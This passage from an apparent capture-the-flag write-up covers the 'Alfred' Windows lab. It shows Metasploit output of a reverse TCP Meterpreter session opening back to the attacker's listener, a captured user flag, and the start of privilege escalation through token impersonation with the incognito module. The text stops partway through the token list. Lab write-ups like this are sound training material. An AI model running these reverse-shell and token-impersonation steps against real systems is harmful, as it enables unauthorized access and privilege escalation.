 ```groovy
[*] Started reverse TCP handler on 10.11.60.242:1337 
[*] Sending stage (175686 bytes) to 10.10.22.71
[*] Meterpreter session 1 opened (10.11.60.242:1337 -> 10.10.22.71:49310) at 2024-02-02 18:35:46 +0100

meterpreter > sysinfo
Computer        : ALFRED
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter >
```

After roaming around a bit, I found the user flag !

location : `C:\Users\bruce\Desktop\user.txt`

```bash
cat 'C:\Users\bruce\Desktop\user.txt'
79007a09481963edf2e1321abd9ae2a0
```

# Privilege escalation

Now that we have initial access to the machine, we want to escalate our privileges to a more powerful entity.

One way to do so is by `impersonation` of tokens.

Since we already are in a meterpreter shell, this will be easy for us.

There is a module called `incognito`, which does this for us.

First, let’s load it and use it.

```bash
meterpreter > use incognito 
Loading extension incognito...Success.
```

We can list all tokens with the following command

```bash
meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT SERVICE\AudioEndpointBuilder
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\PcaSvc
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
```